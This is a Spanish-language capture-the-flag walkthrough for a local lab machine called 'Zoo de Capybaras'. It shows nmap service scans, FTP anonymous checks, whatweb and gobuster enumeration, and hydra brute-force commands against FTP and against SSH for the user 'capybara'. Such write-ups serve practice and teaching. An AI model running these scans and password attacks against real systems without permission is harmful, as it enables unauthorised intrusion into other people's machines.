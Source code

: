 ### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sCV -p21,22,80,3306 172.17.0.2 -oN targeted
```

**Servicios identificados:**
```bash
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.62 ((DebianOracular))
3306/tcp open  mysql   MariaDB 5.5.5-10.11.6
```
---
## Enumeracion FTP:
Tenemos un servicio expuesto que procederemos a enumerar usuario **anonymous** o recursos compartidos:
```bash
nmap --script ftp-anon.nse -p 21 172.17.0.2 # No reporta usuario anonymous
```

De momento no obtenemos nada para este servicionpero dejaremos un atraque de fuerza bruta con **hydra** con usuarios tipicos:
```bash
hydra -l /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt -t 4 -f ftp://172.17.0.2
```
## Enumeracion de [Servicio Web Principal]
direccion **URL** del servicio:
```bash
http://172.17.0.2/
```

Ingreando a la web, No indica de un usario **capybara**, que probaremos con un ataque de fuerza bruta por **ssh** ya que esta expuesto, en lo que seguimos enumerando la web principal:
```bash
hydra -l capybara -P /usr/share/wordlists/rockyou.txt -t 4 -f ssh://172.17.0.2
```
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://172.17.0.2/
http://172.17.0.2/ [200 OK] Apache[2.4.62], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.62 (Debian)], IP[172.17.0.2], Title[Zoo de Capybaras]
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
nmap --script http-enum -p 80 172.17.0.2 # No reporta rutas
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --add-slash
```
